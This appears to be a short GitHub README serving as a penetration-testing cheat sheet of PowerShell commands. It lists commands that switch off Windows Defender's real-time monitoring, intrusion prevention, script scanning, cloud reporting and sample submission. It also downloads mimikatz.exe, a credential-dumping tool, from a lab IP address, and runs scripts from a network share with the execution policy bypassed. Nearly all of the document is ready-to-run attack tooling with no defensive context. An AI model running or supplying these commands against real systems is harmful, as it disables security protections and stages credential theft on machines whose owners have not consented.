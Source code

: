 # praia_essential_commands
Command for pentest

# Disable Windows Defender on Windows 10 using PowerShell
#### Fire up a PowerShell window as administrator and run the following command:

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true

#### Just set the DisableRealTimeMonitoring back to false to re-enable the real-time monitoring within Defender.

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $false


# File Transfer

PS C:\> powershell.exe wget http://10.10.12.39/mimikatz.exe -outfile C:\users\administrator\desktop\mimikatz.exe
PS C:\> powershell.exe Invoke-WebRequest http://10.10.12.39/mimikatz.exe -o mimikatz.exe

# Running a Powershell function from command line.

#### First Step (Load PS1 file):

PS C:\> powershell.exe -executionpolicy bypass -file "\\#SERVER\Get-RDPCertificate.ps1"

#### Second Step (Execute Function):

PS C:\> powershell.exe -executionpolicy bypass -command {"Get-RDPCertificate -Computername $env:COMPUTERNAME | Out-File -filepath (\\#SERVER\$env:computername-$(get-date -f MM-dd-yy).txt)"}

PS C:\> Set-MpPreference -DisableIntrusionPreventionSystem $true 

PS C:\> Set-MpPreference -DisableIOAVProtection $true 

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true 

PS C:\> Set-MpPreference -DisableScriptScanning $true

PS C:\> Set-MpPreference -EnableControlledFolderAccess Disabled 

PS C:\> Set-MpPreference -EnableNetworkProtection AuditMode -Force

PS C:\> Set-MpPreference -MAPSReporting Disabled 

PS C:\> Set-MpPreference -SubmitSamplesConsent NeverSend


 
